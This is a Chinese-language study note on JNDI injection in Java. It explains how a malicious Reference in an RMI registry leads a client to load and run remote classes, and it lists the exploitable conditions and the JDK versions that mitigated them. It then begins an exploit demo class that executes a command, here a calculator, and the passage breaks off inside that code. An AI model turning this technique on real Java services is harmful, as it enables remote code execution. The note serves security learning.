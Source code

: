 ## JNDI注入

**文中环境代码上传到https://github.com/SummerSec/JavaLearnVulnerability/tree/master/RMI%20JRMP%20JNDI**

`此文只是一篇笔记，所以有点乱。`



将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行

![image-20210427154417233](https://raw.githubusercontent.com/SummerSec/Images/main/17u44er17ec/17u44er17ec.png)

### jndi注入的利用条件

- 客户端的lookup()方法的参数可控
- 服务端在使用Reference时，classFactoryLocation参数可控～

上面两个都是在编写程序时可能存在的脆弱点（任意一个满足就行），除此之外，jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击响亮对jdk的版本要求也不一致，这里就全部列出来：


- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

 - JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


### jndi注入 demo

- 创建一个恶意对象

```
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;

public class EvilObj {
    public static void exec(String cmd) throws IOException {
        String sb = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while((lineStr = inBr.readLine()) != null){
            sb += lineStr+"\n";

        }
        inBr.close();
        inBr.close();
    }

    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }

    static {
        try{
            exec("gnome-calculator");
```